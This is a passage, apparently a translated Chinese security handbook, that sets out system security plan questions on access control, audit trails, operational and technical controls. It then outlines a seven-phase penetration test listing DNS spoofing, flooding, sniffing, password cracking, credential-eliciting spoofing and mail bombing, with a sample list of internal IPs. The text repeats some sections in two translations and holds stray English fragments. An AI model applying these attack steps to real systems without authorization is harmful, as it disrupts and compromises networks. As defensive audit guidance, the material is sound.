- 描述规范用户如何委托访问权限或制作文件或信息的副本以供其他用户访问的策略或逻辑访问控制。这种*自主访问控制*可能适用于某些应用程序，而不适用于其他应用程序。记录为证明/支持使用自主访问控制所做的任何评估。

- 说明用户在一段时间不活动后，系统会自动清空相关显示屏幕，和/或用户在一段时间不活动后，系统会自动断开非活动用户或要求用户在重新连接到系统或应用程序之前输入唯一密码。

- 描述任何防止用户在工作时间以外或周末访问系统或应用程序的限制。讨论已实施的限制。

- 说明是否使用加密来防止作为系统或应用程序访问控制程序一部分的对敏感文件的未授权访问。(如果加密主要用于认证，请在上一节中包含此信息。)如果将加密作为访问控制的一部分使用，请提供有关以下方面的信息：

- 使用哪种加密方法(例如，密钥和公钥)？如果使用了特定的现成产品，请提供产品名称。

- 讨论密钥生成、分发、存储、录入、使用、销毁和归档的加密密钥管理程序。

- 如果您的应用程序运行在连接到互联网或其他广域网的系统上，请讨论已安装和实施的额外的硬件或技术控制措施，以提供针对未授权系统渗透和其他已知互联网威胁和漏洞的保护。

- 描述所使用的任何安全网关或防火墙类型，包括其配置(例如，配置为限制对关键系统资源的访问并禁止某些类型的流量通过到达系统)。

- 提供有关用于要求对通信端口进行特定访问授权的任何端口保护设备的信息，包括端口保护设备的配置；说明是否需要额外的密码或令牌。

- 识别是否使用内部安全标签来控制对特定信息类型或文件的访问，以及此类标签是否指定保护措施或指示额外的处理说明。

- 说明是否使用基于主机的认证。(这是一种根据发起请求的主机的身份而不是请求访问的单个用户的身份来授予访问权限的访问控制方法。)

### **公共访问控制**

当组织的应用程序促进或允许公共访问时，需要额外的安全控制措施来保护应用程序的完整性以及公众对应用程序的信心。此类控制措施包括将直接向公众开放的信息与官方组织记录分开。

公共访问系统面临来自外部攻击的更大威胁。在公共访问系统中，用户通常是匿名的，且未接受过系统及其职责方面的培训。对公共访问系统的攻击可能对组织的声誉以及公众信任和信心水平产生重大影响。来自内部人员的威胁也更大(例如，不满员工引入的错误或未经培训用户的无意错误)。

如果公众访问主要应用程序，请描述已有的额外控制措施。以下列表建议实施的控件类型，这些控件可能为公共访问系统提供保护，以及需要考虑的问题(并非旨在包含所有可能的控件或问题)：

- 建立某种形式的识别和认证(这可能很困难)。

- 实施访问控制以限制用户可以读取、写入、修改或删除的内容。

- 安装控制措施以防止公共用户修改系统上的信息。

- 使用数字签名。

- 为信息分发设置CD-ROM进行在线存储。

- 将供公共访问的信息副本放在单独的系统中。

- 禁止公共访问"实时"数据库。

- 验证分发给公众的程序和信息是否无病毒。

- 描述审计追踪和用户保密性。

- 描述系统和数据可用性。

- 列出法律考虑因素。

### **审计追踪**

审计追踪通过系统或应用程序进程和用户活动来维护系统活动的记录。结合适当的工具和程序，审计追踪可以帮助实现多个安全相关目标，包括个人问责制、事件重建、入侵检测和问题识别。

在本节中，描述已有的审计追踪机制。回答以下问题：

- 审计追踪是否通过提供用户行为的追踪来支持问责制？


 - 审计追踪能否支持事后调查，以查明正常运营如何、何时以及为何停止？
- 审计追踪的设计和实施是否记录了有助于入侵检测的适当信息？
- 审计追踪是否作为在线工具使用，以帮助在问题发生时识别除入侵之外的其他问题？
- 审计追踪是否包含足够的信息来确定发生了哪些事件以及谁（或什么）导致了这些事件？一般来说，事件记录应指定：
  - 事件类型
  - 事件发生时间
  - 与事件相关的用户ID
  - 用于发起事件的程序或命令
- 对在线审计日志的访问是否受到严格控制？
- 在管理员访问控制功能的人员与管理员审计追踪的人员之间，是否存在职责分离？
- 审计追踪信息的保密性是否得到保护，例如，如果它记录了关于用户的个人信息？
- 描述审计追踪审查的频率，以及是否存在审查指南。
- 审计追踪能否通过用户ID、终端ID、应用程序名称、日期和时间或其他一组参数进行查询，以运行所选信息的报告？
- 在已知的系统或应用软件问题、用户已知违反现有要求，或某些无法解释的系统或用户问题之后，适当的系统级或应用级管理员是否审查审计追踪？
- 组织是否使用已开发的多种类型工具，以帮助减少审计记录中包含的信息量，以及从原始数据中提取有用信息？（审计分析工具，例如基于审计缩减、攻击特征和方差技术的工具，可以实时或近实时地使用。）

## 通用支持系统：运营控制

运营控制涉及的安全机制主要关注主要由人员实施和执行的方法（而非系统）。这些控制措施旨在提高特定系统（或系统组）的安全性。它们通常需要技术或专业知识，并且往往依赖于管理活动以及技术控制。

在本节中，描述旨在满足通用支持系统保护要求的运营控制措施（已实施或计划中的）。

### 人员控制

对系统最大的危害/破坏来自于个人的行为过分行为，无论是**蓄意**还是**无意**的。系统经常会因为经授权使用或维护系统的个人的善意行为而遭受中断、损坏、丢失或其他不利影响（例如，程序员插入了一个微小的更改，然后在未测试的情况下将程序安装到生产环境中）。

在本节中，请提供以下人员安全问题的详细答案。建议将这些措施中的大部分作为行为规则的一部分。如果它们已纳入行为规则，请引用适用的章节。

- 所有职位是否都已审查其敏感级别？如果并非所有职位都已审查，请注明完成职位敏感性分析的计划日期。
- 个人是否接受了与其分配职位相称的背景审查？如果并非所有个人都已接受适当的背景审查，请说明完成此类审查的日期。
- 如果个人在完成适当的背景审查之前被允许访问系统，在什么条件下允许这样做？描述任何补偿性控制措施以减轻相关风险。
- 用户访问是否受到限制（最小权限），仅限于执行工作所必需的数据文件、处理能力、外设和访问类型 minim 操作，路径类型（例如，读取、写入、执行、删除）？
- 关键职能是否分配给不同的个人（职责分离），以确保没有任何个人拥有可能导致欺诈活动的全部必要权限或信息访问权限？
- 是否有请求、建立、发放和关闭用户帐户的流程？
- 有哪些机制使用户对其行为负责？
- 友好终止和非友好终止的终止程序是什么？

#### 物理和环境防护

实施物理和环境安全控制是为了保护容纳系统资源的设施以及系统资源本身，以及用于支持其运行的设施。组织的物理和环境安全计划应涵盖接下来解释的七个主题。

#### 物理和环境安全说明

在本节中，简要描述通用支持系统已实施或计划中的物理和环境控制。

**访问控制。** 物理访问控制限制人员（通常还包括设备和介质）进出某个区域，例如办公楼、套房、数据中心或包含局域网（LAN）服务器的房间。物理访问控制不仅应涵盖包含系统硬件的区域，还应包括用于连接系统各元素的布线位置、支持服务（如电力）、备份介质以及系统运行所需的任何其他元素。重要的是，在正常工作时间和非工作时间（特别是在区域可能无人时）都要审查每个区域物理访问控制的有效性。

**火灾安全因素。** 建筑物火灾是特别危险的安全威胁，因为它可能导致硬件和数据的完全破坏、对人类生命的威胁以及损害的普遍性。局部火灾产生的烟雾、腐蚀性气体和高湿度可能会破坏整栋建筑物内的系统。因此，评估容纳系统的建筑物的火灾安全性非常重要。

**辅助设施故障。** 系统及其操作人员需要有一个控制相对良好的运行环境。电力、供暖和空调系统、水、 sewage 和其他公用设施的故障通常会导致服务中断，并可能损坏硬件。因此，组织应确保这些公用设施（包括其诸多元素）正常运行。

**结构坍塌。** 组织应意识到建筑物可能会承受超过其承载能力的负荷。最常见的情况是，这是由于地震、超出设计标准的屋顶积雪、爆炸导致结构构件移位或切割，或火灾削弱了结构构件。

#### 管道泄漏

虽然管道泄漏并不每天都会发生，但它们可能会造成严重的中断。组织应了解可能危及系统硬件的管道线路位置，并采取措施降低风险（例如，移动硬件、重新布置管道线路、识别 shutoff 阀门）。

#### 数据截获

根据系统处理的数据类型，如果数据被截获，可能会存在重大风险。组织应意识到存在三种数据截获途径：直接观察、数据传输截获和电磁截获。

#### 移动和便携式系统

如果系统安装在车辆中或是便携式的（如笔记本电脑），风险分析和管理通常需要进行修改。车辆中的系统将分担车辆的风险，包括事故和盗窃，以及地区性和局部性风险。组织应：

- 在不使用时 securely 存储笔记本电脑。
- 在成本效益合理的情况下，对存储介质上的数据文件进行加密，以防笔记本电脑丢失或被盗时信息泄露。

#### 生产、输入/输出控制

在本节中，提供支持通用支持系统的程序的概要。以下是应报告的主题示例：

- 用户支持。
- 确保未经授权的个人无法读取、复制、更改或窃取印刷或电子信息。
- 确保只有授权用户才能领取、接收或交付输入和输出信息和介质。
- 敏感输入/输出接收的审计追踪。
- 限制访问输出产品的程序。
- 用于运输或邮寄介质或印刷输出的程序和控件。


- 库存管理的审计追踪。
- 媒体存储库或库房的物理和环境保护措施及程序。
- 电子媒体重复利用前的清理程序（例如，电子媒体的覆写或消磁）。
- 损坏媒体或无法有效清理重复利用的媒体的受控存储、处理或销毁程序。
- 不再需要时，对纸质媒体进行碎纸或其他破坏性处理的程序。

### 应急计划（支持连续性）

通用支持系统需要适当的紧急、备份和应急计划。这些计划应定期进行测试，以确保在系统发生故障时支持工作的连续性。此外，这些计划应告知用户，并与他们的应用计划相协调。

描述在发生灾难时为确保系统继续处理所有关键应用而需遵循的程序（应急计划）；并提供详细计划的参考。在此描述中回答以下问题：

- 是否已制定经过测试的应急计划，以确保在灾难性事件中关键业务功能的连续性？
- 是否已针对所有支持的IT系统和网络制定经过测试的灾难恢复计划？
- 是否已张贴或放置正式书面的紧急操作程序，以便在紧急情况下使用？
- 应急、灾难和紧急计划多久测试一次？
- 是否所有员工都接受了与其在紧急、灾难和应急计划中角色和职责相关的培训？

包括对以下控制措施的描述：

- 任何备份处理协议（例如，与商业服务提供商的温备/热备站点合同）。
- 记录在案的备份程序，包括频率（每日、每周、每月）和范围（完全备份、增量备份和差异备份）。
- 存储备份的位置（异地或现场）。
- 保留的备份代际数量。
- 备份程序的覆盖范围（例如，备份的内容）。

#### 硬件和系统软件维护控制

这些控制措施用于监控硬件、操作系统软件及其他软件的安装和更新，以确保硬件和软件按预期运行，并保持应用变更的历史记录。这些控制措施还可用于确保仅在系统上安装授权软件。此类控制措施可能包括硬件和软件配置策略，该策略要求修改需经管理层批准（重新授权处理），并要求记录变更。其他控制措施包括用于审计或防止非法使用共享软件或受版权保护软件的产品和程序。

在本节中，提供几段关于现有或计划中的硬件和系统软件维护控制的说明。以下问题是本节应解决的示例项目：

- 是否已制定程序，确保维护和修理活动在不影响系统安全的情况下完成？请考虑以下项目：
  - 对执行维护和修理活动人员的限制/控制。
  - 执行紧急修理和维护的特殊程序。
  - 硬件/软件保修和升级策略的管理，以最大化利用此类项目以最小化成本。
  - 现场和非现场维护服务项目的程序（例如，维护人员陪同、移出站点设备的清理）。
  - 通过电信安排进行诊断程序或维护时，对远程维护服务进行控制的程序。
- 系统的配置管理程序是什么？描述中请考虑以下项目：
  - 允许将系统组件与适当系统版本关联的版本控制。
  - 系统组件（操作系统、其他系统、工具、应用）提升到生产环境之前的测试和/或批准程序。
  - 影响分析，以确定建议变更对现有安全控制的影响，包括硬件/软件变更相关的技术和用户社区所需的培训。
  - 变更识别、批准和记录程序。
  - 确保应急计划和其他相关文档更新以反映系统变更的程序。
- 测试数据是"真实"数据还是虚构数据？
- 紧急修复如何处理？
- 处理受版权保护软件或共享软件的策略是什么？描述中请考虑回答以下问题：
  - 是否有禁止非法使用受版权保护软件或共享软件的组织政策？
  - 政策是否包含个人和管理层的责任和问责条款，包括处罚？
  - 是否定期对用户计算机（PC）进行审计，以确保仅安装合法许可的软件副本？
  - 使用哪些产品和程序来防止非法使用软件？
  - 软件保修是否进行管理，以最小化升级成本以及缺陷的成本补偿或更换？

#### 完整性控制

完整性控制用于保护操作系统、应用和系统中的信息免受意外或恶意的更改或破坏，并向用户提供保证，使其确信信息符合质量预期且未被更改。

在本节中，描述任何能够向用户保证信息未被更改且系统按预期运行的控制措施。以下问题是属于此类别的一些控制措施的示例：

- 是否安装了病毒检测和清除软件？如果是，是否有以下程序：
  - 更新病毒特征库？
  - 自动和/或手动病毒扫描（网络登录时自动扫描、客户端/服务器开机时自动扫描、病毒清除和报告时自动扫描）？
- 系统是否使用对账程序——校验和、哈希总计、记录计数？请描述为解决任何差异而采取的措施。
- 是否使用密码破解/检查工具？
- 应用是否使用完整性验证程序来查找数据篡改、错误和遗漏的证据？技术包括一致性和合理性检查，以及数据输入和处理期间的验证。描述系统内使用的完整性控制。
- 是否使用系统性能监控来实时分析系统性能日志，以查找可用性问题，包括主动攻击，以及系统和网络减速和崩溃？
- 应用中是否使用消息认证来确保消息发送者已知，且消息在传输过程中未被更改？说明消息认证是否已被确定为适合您的系统。如果是，请描述其方法。

### 文档

文档是一种安全控制，因为它解释了软件/硬件的使用方法，并将特定于系统的安全和操作程序正规化。系统文档包括硬件和软件描述、与自动化信息系统安全相关的支持系统的政策、标准、程序和批准，包括备份和应急活动，以及用户和 operator 程序的描述。

在本节中，列出为通用支持系统维护的文档。

#### 安全意识与培训

每个用户在获准访问系统之前，必须了解可接受的系统行为规范。培训计划还应告知用户在遇到使用困难时如何获取帮助，以及报告安全事件的程序。

对公众成员提供的访问应受应用中的约束，培训应在这些控制的背景下进行，且可能仅在访问时由通知组成。


 在此部分计划中包含以下信息：

- 系统宣传方案（海报、手册和小物件）。
- 向员工和合同人员提供的系统专项培训的类型和频率（研讨会、工作坊、正式课堂、专题小组、基于角色的培训和在职培训）。
- 确保员工和合同人员已获得充分培训的程序。

### 事件响应能力

计算机安全事件是指计算机系统或网络中因安全机制失效或安全机制被企图或威胁攻破而引发的不利事件。计算机安全事件正变得愈发常见，其影响也日益深远。面对事件时，组织应能够迅速响应，既要保护自身信息，也要帮助保护可能受事件影响的其他人的信息。

在本节中，描述通用支持系统现有的**事件处理程序**。就此需要提出和回答的问题包括：

- 是否有正式的事件响应能力（内部或外部）可用？如果尚未建立相关能力，是否有服务台或类似组织可以提供协助？
- 是否有由系统人员内部处理或外部处理的事件报告程序？
- 是否有事件识别和处理程序——即应保留哪些文件和日志、联系谁以及何时联系？
- 谁负责接收和响应警报/公告，例如供应商补丁、被利用的漏洞？
- 有哪些预防措施到位？
- 入侵检测工具
- 自动化审计日志
- 渗透测试

## 通用支持系统：技术控制

技术控制侧重于计算机系统执行的安全控制。这些控制可以提供自动化的未授权访问或滥用防护，促进安全违规行为的检测，并支持应用程序和数据的安全需求。然而，技术控制的实施始终需要重要的运营考量，并应与组织内的安全管理保持一致。

在本节中，描述旨在满足通用支持系统保护需求的**技术控制措施**（已到位或计划中的）。

#### 身份识别与认证

身份识别与认证是一种**技术措施**，用于阻止未经授权的人员（或未经授权的进程）进入IT系统。访问控制通常要求系统能够识别和区分用户。例如，访问控制通常基于**最小权限原则**，即仅向用户授予执行其职责所必需的最低访问权限。**用户可归责性**要求将IT系统上的活动与特定个人关联起来，因此系统需要能够识别用户。

#### 身份识别

身份识别是用户向系统提供其所声称身份的方式。最常见的身份识别形式是**用户ID**。

在本节计划中，描述通用支持系统如何识别对系统的访问。

- **唯一标识。** 组织应要求用户在获准对系统执行任何操作之前唯一地标识自己，除非用户匿名性或其他因素另有规定。
- **将行为与用户关联。** 系统应在内部维护所有活动用户的身份，并能够将行为与特定用户关联起来。（参见审计追踪部分。）
- **用户ID的维护。** 组织应确保所有用户ID属于当前经授权的用户。身份识别数据必须通过添加新用户和删除原用户来保持最新。
- **非活动用户ID。** 在系统中特定时间段内（例如三个月）处于非活动状态的用户ID应被禁用。

#### 认证

认证是建立用户所声称身份对系统而言有效性的方式。有三种认证用户身份的方式，可以单独使用或组合使用：**用户所知**（秘密——例如密码、PIN或加密密钥）；**用户所有**（令牌——例如ATM卡或智能卡）；以及**用户本身**（生物特征——例如语音模式、手写动态或指纹等特征）。

在本节中，描述通用支持系统的认证控制机制。在描述中，请执行以下操作：

- 描述用户认证方法（密码、令牌和生物特征）。
- 如果使用密码系统，请提供以下具体信息：
  - 允许的字符集
  - 密码长度（最小值、最大值）
  - 密码时效期限和执行方式
  - 禁止使用的过期密码世代数
  - 密码更改程序
  - 丢失密码的处理程序
  - 密码泄露的处理程序
- 定义用户培训程序，并描述所涵盖的材料。
- 说明密码更改的频率；描述密码更改如何强制执行（例如，由软件或系统管理员执行）；并确定谁更改密码（用户、系统或系统管理员）。
- 描述所使用的任何生物特征控制。包括生物特征控制在系统上如何实施的描述。
- 描述本系统上使用的任何令牌控制及其实施方式。回答：
  - 是否需要特殊硬件读卡器？
  - 是否要求用户使用唯一PIN？
  - 谁选择PIN，用户还是系统管理员？
  - 令牌是否使用密码生成器创建一次性密码？
  - 是否使用质询-响应协议创建一次性密码？
- 描述访问控制机制的执行级别（网络、操作系统和应用程序）。
- 描述访问控制机制如何支持个人可归责性和审计追踪（例如，密码与分配给个单一用户的用户标识符相关联）。
- 描述用户认证机制的自保护技术（例如，密码以单向加密方式传输和存储，以防止任何人[包括系统管理员]读取明文密码；密码自动生成；密码对照禁止密码字典进行检查）。
- 说明给定用户标识符或访问位置（终端或端口）可能发生的无效访问尝试次数，并描述超过该限制时采取的措施。
- 描述验证所有系统提供的管理默认密码已更改的程序。
- 描述限制使用嵌入密码的访问脚本的程序（例如，禁止使用嵌入密码的脚本；仅允许批处理应用程序使用嵌入密码的脚本）。
- 描述任何绕过用户认证要求的策略、单点登录技术（例如，主机到主机、认证服务器、用户到主机标识符和组用户标识符），以及任何补偿性控制。

### 逻辑访问控制（授权/访问控制）

逻辑访问控制是系统级机制，用于指定谁或什么（在进程的情况下）有权访问特定系统资源以及允许的访问类型。

在本节中，讨论用于授权或限制用户和系统人员在应用程序内活动的控制措施。描述旨在仅允许授权访问或应用程序内访问、将用户限制在授权交易和功能内、和/或检测未经授权活动的硬件或软件功能（例如，访问控制列表）。请执行以下操作：

- 描述定义将授予每个用户或用户类别的权限的正式策略。说明这些策略是否遵循**最小权限原则**，该原则要求识别用户的工作职能，确定执行该职能所需的最低权限集，并将用户限制在仅拥有这些权限的域内。包括授予新用户访问权限的程序，以及角色或工作职能变更时使用的程序。
- 确定策略是否包括**职责分离**的执行，以防止个人拥有允许其在无共谋情况下进行欺诈活动所需的所有权限或信息访问权限。
- 描述应用程序建立ACL或注册用户及其获准访问类型的能力。


 - 说明是否维护了手动访问控制列表（ACL）。

- 说明安全软件是否允许应用程序所有者限制其他应用程序用户、一般支持系统管理员或操作员对应用程序、数据或文件的访问权限。

- 描述如何限制应用程序用户访问操作系统、其他应用程序或在履行职责时不需要的其他系统资源。

- 说明访问控制列表（ACL）的审查频率，以识别并移除已离职或其职责不再需要访问该应用程序的用户。

- 描述用于检测授权和/或未授权用户未授权交易尝试的控制措施。

- 描述有关用户如何委派访问权限或向其他用户提供文件或信息副本的政策或逻辑访问控制。这种自主访问控制对某些应用程序可能是合适的，对其他应用程序则可能不合适。记录为证明/支持使用自主访问控制所做的任何评估。

- 说明用户不活动多长时间后系统会自动清空相关显示屏幕，和/或用户不活动多长时间后系统会自动断开不活动用户，或要求用户在重新连接到系统或应用程序之前输入唯一密码。

- 描述任何用于防止用户在正常工作时间之外或周末访问系统或应用程序的限制措施。讨论已实施的在位限制。

- 说明是否使用加密作为系统或应用程序访问控制程序的一部分，以防止未授权访问敏感文件。（如果加密主要用于身份验证，请在上一节中包含此信息。）如果将加密用作访问控制的一部分，请提供以下信息：

- 使用哪种加密方法（例如，密钥和公钥）？如果使用特定的现成产品，请提供产品名称。

- 讨论密钥生成、分发、存储、输入、使用、销毁和归档的加密密钥管理程序。

- 如果应用程序运行在连接至互联网或其他广域网的系统上，讨论已安装和实施的额外硬件或技术控制措施，以提供针对未授权系统渗透以及其他已知互联网威胁和漏洞的保护。

- 描述使用的任何安全网关或防火墙类型，包括其配置（例如，配置为限制对关键系统资源的访问，并禁止某些类型的流量通过到系统）。

- 提供有关用于要求对通信端口进行特定访问授权的任何端口保护设备的信息，包括端口保护设备的配置，并说明是否需要额外的密码或令牌。

- 确定是否使用内部安全标签来控制对特定信息类型或文件的访问，以及此类标签是否指定保护措施或指示额外的处理说明。

- 说明是否使用基于主机的身份验证。（这是一种基于发起请求的主机身份而非请求访问的单个用户来授予访问权限的访问控制方法。）

### 审计跟踪

审计跟踪记录系统或应用程序进程以及用户活动的系统活动记录。结合适当的工具和程序，审计跟踪可以提供帮助实现多个安全相关目标的手段，包括个人问责、事件重建、入侵检测和问题识别。

在本节中，描述已实施的审计跟踪机制。需要考虑的问题如下：

- 审计跟踪是否通过提供用户操作轨迹来支持问责？

- 审计跟踪能否支持对正常运营如何、何时以及为何停止的事后调查？

- 审计跟踪的设计和实施是否记录了有助于入侵检测的适当信息？

- 审计跟踪是否用作在线工具，以帮助识别除入侵之外的其他问题？

- 审计跟踪是否包含足够的信息来确定发生了哪些事件以及谁（或什么）导致了它们？通常，事件记录应指定：

- 事件类型

- 事件发生时间

- 与事件关联的用户ID

- 用于启动事件的程序或命令

- 对在线审计日志的访问是否受到严格控制？

- 管理访问控制功能的安全人员与管理审计跟踪的人员之间是否存在职责分离？

- 审计跟踪信息的保密性是否受到保护，例如，如果它记录了有关用户的个人信息？

- 描述审计跟踪审查的频率，以及是否有审查指南。

- 审计跟踪是否可以按用户ID、终端ID、应用程序名称、日期和时间或其他一组参数进行查询，以运行所选信息的报告？

- 在已知系统或应用软件问题、已知用户违反现有要求，或某些无法解释的系统或用户问题之后，适当的系统级或应用程序级管理员是否审查审计跟踪？

- 组织是否使用许多类型的工具来帮助减少审计记录中包含的信息量，以及从原始数据中提取有用信息？审计分析工具，例如基于审计还原、攻击特征和方差技术的工具，可以实时或接近实时的方式使用。

## 策略模板

附录B包含根据前述指南制定的策略模板。这些模板仅是从一个角度出发的示例。请根据个人或专业操作指南自由定制。

## 安全分析

> "忘记你认为你所知道的*一切*关于高技术犯罪的了解：青少年黑客、外国间谍、劫持团伙、在复印机上伪造100美元假钞的伪造者。任何公司知识产权皇冠珠宝——商业秘密、研发计划、定价清单、客户信息——的最大危险来自其他美国公司。"
>
> —— *《福布斯杂志》*，1996年

大多数公司没有足够的时间或可用资源来正确设计和实施安全解决方案或维护其网络免受互联网的安全威胁。安全分析将指导您为家庭或组织创建和实施实用的安全解决方案。

随着互联网的发展和技术进步的不断推进，入侵变得越来越普遍。对于任何具有互联网连接的个人或公司来说，外部威胁是一个现实世界的问题。为了确保远程访问安全、系统安全以及安全策略合理，应定期进行安全审计。无论您的家庭或企业是刚刚连接到互联网，还是您早已拥有互联网连接和/或网络基础设施，分析都可以帮助确定您是否得到了充分的入侵保护。本节提出了对当前防护措施安全性的评估以及详细的安全审计。我们将涵盖以下内容：

- *站点扫描*，针对内部防御测试端口和应用层。

- *远程审计*，针对外部服务进行测试（例如，ISP托管、服务器和通道）。

- *渗透测试*，测试互联网安全性。

- *IP/邮件欺骗/垃圾邮件测试*，防范这一日益严重的问题。

- *拨号审计*，确保PC Anywhere、Reachout和/或Citrix等产品的远程访问连接安全。

外部审计应远程执行，即在任何外围防御（如防火墙）之外或从外部执行。这应首先以盲测方式执行，也就是说，没有详细的基础设施知识。

在第一阶段之后，知情的渗透测试将确定外部攻击的程度和风险（如果有的话）。此审计对于测试外围安全机制的配置、各自的Web、FTP、电子邮件和其他服务非常有价值。此扫描和模拟攻击通过互联网远程进行。最好，此阶段应以有限披露（除特定管理层外均为盲测）的方式作为计划外外部渗透评估执行。

渗透测试应限于被动探测，以免对业务造成任何方式的干扰。可选地，这可能包括调制解调器拨号和物理安全的攻击和评估。这是通过*拨号扫描*之类的方法实现的，该程序用于扫描和检测配置错误的拨号和终端服务器，以及流氓和/或未经授权的调制解调器。

当审计针对网站时，应对CGI、Java、JavaScript和ActiveX进行源代码审计。在执行审计时，应维护所有操作的详细、带时间戳的日志。此日志将


可用于与当前站点日志记录设施进行进一步比对测试，方法是将审计日志与目标站点日志进行比较。最重要的是，如果您执行审计的原因并非出于个人目的，则该审计应仅在获得公司相关负责官员以公司信笺出具的书面许可后方可启动。

## 分析的七个阶段

应定期进行安全审计。根据*《黑客攻击揭秘（第二版）》*（*Hack Attacks Revealed, Second Edition*）中评估的技术、工具和第三方软件，良好的分析可分为以下七个阶段。

### *第一阶段：盲测*

这是指远程测试，且事先对目标基础设施没有详细了解。

**站点扫描**

站点扫描包括：

- 网络发现。
- 对在发现阶段识别到的所有端口进行端口扫描。
- 应用扫描，以识别与发现的端口相关的系统服务。
- 吞吐量扫描，用于识别端口利用率水平以发现漏洞。
- 文档记录。

**远程审计**

在远程审计期间，执行以下操作：

- 测试外围防御、外部 ISP 服务以及任何其他作为防火墙或代理通道的网络服务的配置、稳定性和漏洞。
- 提供文档。

**渗透测试**

要进行渗透测试，执行以下操作：

- 攻击并评估物理安全性，意图渗透站点扫描和远程审计中识别的所有项目。
- 审计 CGI、JavaScript 和 ActiveX 的源代码。
- 启动 ODBC 捕获（数据库）。
- 执行 IP 泛洪测试。
- 启动标准的 NT/Novell/Unix IOS 破解。
- 进行 DNS 欺骗。
- 初始化嗅探器被动探测以捕获流量。
- 准备文档。

**IP、邮件欺骗和垃圾邮件测试**

IP、邮件欺骗和垃圾邮件测试需要以下活动：

- 执行渗透攻击 secretly attacks，诱使基础设施设备做出有害声明和/或泄露敏感信息（如密码）。
- 测试伪造电子邮件和控制任何 SMTP/POP3/IMAP4 服务器的能力；利用客户昂贵的带宽发送外部邮件轰炸。
- 准备文档。

### *第二阶段：知情渗透*

这涉及在事先了解目标基础设施的情况下进行测试，包括以下内容：

- IP/IPX 地址方案。
- 协议。
- 网络/端口地址转换方案。
- 拨号信息（用户、拨号号码、访问方法等）。
- 网络互联操作系统配置。
- 特权访问点。
- 详细的外部配置（ISP、Web 托管等）。
- 文档。
- 站点扫描，包括：
  - 网络发现。
  - 对在发现阶段识别到的所有端口进行端口扫描。
  - 应用扫描，以识别与发现的端口相关的系统服务。
  - 吞吐量扫描，用于识别端口利用率水平以发现漏洞。
  - 文档。
- 远程审计，需要以下操作：
  - 测试外围防御、外部 ISP 服务以及任何其他作为防火墙或代理通道的网络服务的配置、稳定性和漏洞。
  - 准备文档。
- 渗透测试，包括以下操作：
  - 攻击并评估物理安全性，意图渗透站点扫描和远程审计中识别的所有项目。
  - 审计 CGI、JavaScript 和 ActiveX 的源代码。
  - 启动 ODBC 捕获（数据库）。
  - 执行 IP 泛洪测试。
  - 启动标准的 NT/Novell/Unix IOS 破解。
  - 进行 DNS 欺骗。
  - 初始化嗅探器被动探测以捕获流量。
  - 准备文档。
- IP、邮件欺骗、垃圾邮件测试包括以下操作：
  - 执行渗透攻击，诱骗基础设施设备做出有害声明和/或泄露敏感信息（如密码）。
  - 测试伪造电子邮件和控制任何利用昂贵带宽发送外部邮件轰炸的 SMTP/POP3/IMAP4 服务器的能力。
  - 准备文档。

### **第三阶段：互联网服务**

在第三阶段，进行渗透测试。它们包括：

- 攻击并评估物理安全性，意图渗透站点扫描和远程审计中识别的所有项目。
- 审计 CGI、JavaScript 和 ActiveX 的源代码。
- 从客户识别的数据库启动 ODBC 调用。
- 执行 IP、HTTP 和 ICMP 泛洪测试。
- 进行 DNS 欺骗。
- API 已被识别为一种潜在的攻击媒介。
- 准备文档。

### **第四阶段：拨号审计**

拨号审计涉及：

- 利用拨号扫描来扫描和检测配置错误的拨号连接和终端服务器（PCAnywhere、Reachout、Citrix 等），以及任何未经授权的桌面调制解调器。
- 记录程序。

### **第五阶段：本地基础设施审计**

本地基础设施审计是将每个部分的报告汇编为可交付成果，包括以下内容：

**用户问题报告。** 包括启动缓慢、文件/打印困难、低带宽可用性以及自发连接终止等问题。

**按协议族划分的流量构成。** 按协议对捕获期间的利用率进行百分比细分。每帧按协议族分类。如果应用多种协议，则帧按分析的最高协议分类。因此，例如，封装在帧中继中的 TCP/IP 帧将被归类为 TCP/IP，并且帧中的所有字节都将计入 TCP/IP 百分比。

**网段/站点与症状。** 详细分析发现的网络站点和症状，特别是发现的网络站点，包括每个站点的错误或症状数量。检测到的一些症状包括：

- **帧冻结。** 表示应用程序挂起或站点无响应。
- **文件重传。** 表示整个文件或文件子集已被重传。这通常是由于应用程序未能有效使用网络所致。
- **低吞吐量。** 根据文件传输期间的平均吞吐量计算得出。
- **重定向主机。** 表示站点正在接收 ICMP "重定向消息"，这意味着路由器或网关可能已发送该消息，以通知站点存在更优路由或该路由不可用。

**带宽利用率。** 表示分析会话期间站点使用的总带宽。根据这些数据，可以提出提高吞吐量和生产力的建议。

### **第六阶段：广域网审计**

第六阶段是将每个部分的报告汇编为可交付成果。该汇编包括：

#### **网络互联设备发现。**

当前网络互联硬件的清单，包括交换机、路由器、防火墙和代理。

#### **告警和阈值。**

此功能实时跟踪所有 HTTP、FTP、POP3、SMTP 和 NNTP 流量，以及自定义定义的站点访问信息。其他监控的访问信息包括网络负载、每个用户访问的次数和频率以及被拒绝的尝试的摘要信息。

#### **告警/事件日志记录。**

分析会话期间实际日志文件的摘录。

### *第七阶段：报告*

此阶段是将每个部分的报告汇编为可交付成果，包括：

- 所有发现的详细文档。
- 每个事件的图表/屏幕截图。
- 基于老虎队技术的建议防御增强措施。
- 处于即时危险中的漏洞所需/可选增强措施清单。

## 安全分析交付成果示例

安全分析的交付成果应包含项目审查会议期间概述的所有功能。交付成果将以详细报告的形式呈现，分为以下几个部分：扫描、欺骗、垃圾邮件、泛洪、审计、渗透、发现、网络信息、系统信息、漏洞评估以及增强网络安全的建议（必需和可选）。应留出时间整理发现结果，因为这样做将有助于后续的修复步骤。

作为实际报告阶段的示例，本章的其余部分概述了此阶段一些主要组成部分。您还可以将漏洞扫描器（如 TigerSuite、Network Associates 的 CyberCop Scanner 或 Axent 的 NetRecon）的报告发现纳入报告中。本特定报告是根据对目标公司 XYZ 公司的分析生成的。

### 发现

根据对该网络上主机的被动探测获得的信息，可以对网络的整体安全性做出以下结论。这些设备是在事先不了解基础设施的情况下发现的（见图 7.1）。


 172.20.10.175

172.20.10.174

172.20.10.176

172.20.10.182

10.183

10.184

10.185

172.20.10.186

172.20.10.187

172.20.10.189

172.20.10.185

10.161

172.20.10.26

172.20.12.1

172.20.10.1

172.20.12.26

172.20.12.31

172.20.12.5

### 图 7.1 发现过程中找到的基础设施数据。

